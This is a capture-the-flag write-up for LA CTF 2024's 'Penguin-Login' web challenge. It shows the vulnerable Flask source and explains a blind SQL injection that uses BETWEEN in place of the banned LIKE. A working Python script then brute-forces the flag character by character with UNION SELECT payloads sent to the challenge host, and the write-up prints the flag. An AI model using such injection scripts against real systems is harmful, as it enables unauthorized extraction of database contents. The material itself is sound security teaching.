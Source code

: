 ```yaml
---
title: Penguin-Login
date: 2024-02-18T20:05:34+02:00
description: Writeup for Penguin-Login [La ctf 2024]
author: H0N3YP0T
tags:
- web
draft: false
---
```

___

## Challenge Description

I got tired of people leaking my password from the db so I moved it out of the db. penguin.chall.lac.tf

## Intuition

The website is really basic, it only does one request which is vulnerable to SQL injections.

![login](/images/lactf_2024/penguin.png)

![test_sqli](/images/lactf_2024/penguin_test.png)

## Solution

By looking in the source code, I notice that the original query is `"SELECT * FROM penguins WHERE name = '%s'"` but the
tricky part is that a whitelist of characters is used to filter the input. I can not use the word `LIKE` and I can use only
`a-zA-Z0-9` and `{_}` characters.

```python
with app.app_context():
    conn = get_database_connection()
    create_sql = """
        DROP TABLE IF EXISTS penguins;
        CREATE TABLE IF NOT EXISTS penguins (
            name TEXT
        )
    """
    with conn.cursor() as curr:
        curr.execute(create_sql)
        curr.execute("SELECT COUNT(*) FROM penguins")
        if curr.fetchall()[0][0] == 0:
            curr.execute("INSERT INTO penguins (name) VALUES ('peng')")
            curr.execute("INSERT INTO penguins (name) VALUES ('emperor')")
            curr.execute("INSERT INTO penguins (name) VALUES ('%s')" % (flag))
        conn.commit()


@app.post("/submit")
def submit_form():
    conn = None
    try:
        username = request.form["username"]
        conn = get_database_connection()

        assert all(c in allowed_chars for c in username), "no character for u uwu"
        assert all(
            forbidden not in username.lower() for forbidden in forbidden_strs
        ), "no word for u uwu"

        with conn.cursor() as curr:
            curr.execute("SELECT * FROM penguins WHERE name = '%s'" % username)
            result = curr.fetchall()

        if len(result):
            return "We found a penguin!!!!!", 200
        return "No penguins sadg", 201

    except Exception as e:
        return f"Error: {str(e)}", 400
```

The server does not send the query back, it only sends a message if the query was successful or not. Therefore I need to build an 
error based SQLi. I can use the `BETWEEN` query in order to simulate the `LIKE` query. The following payload is used to guess one by one character of the flag.

![payload](/images/lactf_2024/payload_penguins.png)

This payload is an example where I already know the beginning of the flag (flag{tes) and I want to find out the next character. I use the `BETWEEN` query to check if the character I will inject in the first position of the flag is correct or not. If the server returns `We found a penguin!!!!!` then the character is good otherwise it is not. 
Note that I had `z` at the end of the second part of the `BETWEEN` to check from `a` to `z` and if it is a number then I will add `9` to check from `0` to `9`.
In order to be faster I can use `fuff` to fuzz every character by using a wordlist.

![payload](/images/lactf_2024/fuff_penguins.png)

or even do it by using a script (thanks to [MettleSphee](https://github.com/MettleSphee))

```python
import requests
url = "https://penguin.chall.lac.tf/submit"

headers = {
  'Content-Type': 'application/x-www-form-urlencoded'
}
found=0
alphabet = '0123456789qwertyuiopasdfghjklzxcvbnm}'
found_string="lactf{90stgr353sn0tl7k3th30th3rdbs0w"
#print(brute[len(brute)-1])
while found_string[len(found_string)-1] != "}":
	if (found == 1):
		break
	for brute in alphabet:
		payload = 'username=\'%20UNION%20SELECT%20name%20from%20penguins%20WHERE%20NAME%20BETWEEN%20\''+found_string+brute+'\'%20AND%20\''+found_string+brute+'z'
		response = requests.request("POST", url, headers=headers, data=payload)
		match response.status_code:
			case 201:
				#print("not found yet")
				if (brute=="}"):
					found = 1
					break
			case 200:
				found_string = found_string + brute
				print(found_string)
				if (brute=="}"):
					found = 1
					break
print("Found! "+found_string)
```

![script](/images/lactf_2024/script_penguins.png)

For some reason the flag in the exploit does not contain any `_` character but the flag we have to
submit contains it between the different words which is absolutely demonic. I had a 
lot of trouble to understand the meaning of the flag and put the `_` at the right
place 😡, like, seriously am I the only one who got troubles to understand this `90stgr353sn0tl7k3th30th3rdbs0w0` ???

### Flag

`lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w0}`

